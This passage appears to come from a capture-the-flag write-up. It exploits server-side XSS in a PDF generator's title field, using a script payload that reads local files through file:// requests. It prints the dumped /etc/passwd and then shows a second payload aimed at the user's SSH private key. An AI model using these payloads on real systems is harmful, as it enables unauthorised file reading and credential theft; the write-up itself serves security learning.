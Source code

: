 We have to make several tries and modify the payload as it is here:   
Local File Read Access through XSS in Dynamically Generated Email Template PDF:
[https://www.esecurify.com/local-file-read-access-through-xss-in-dynamically-generated-email-template-pdf/](https://www.esecurify.com/local-file-read-access-through-xss-in-dynamically-generated-email-template-pdf/)

It works with the following script, putting it directly in the title field, while uploading any pdf file (we are using sample.pdf, a simple one page pdf file):
~~~
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
~~~


We obtain the content of ***/etc/passwd***:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-
data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats
Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-
network:x:100:102:systemd Network
Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-
resolve:x:101:103:systemd
Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
reader:x:1000:1000:reader:/home/reader:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

As we know the users, let's try to grab a private ssh key for the user “reader” by trying to read the file ***/home/reader/.ssh/id_rsa*** which is usully the file containing the ssh provate key:
```
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```
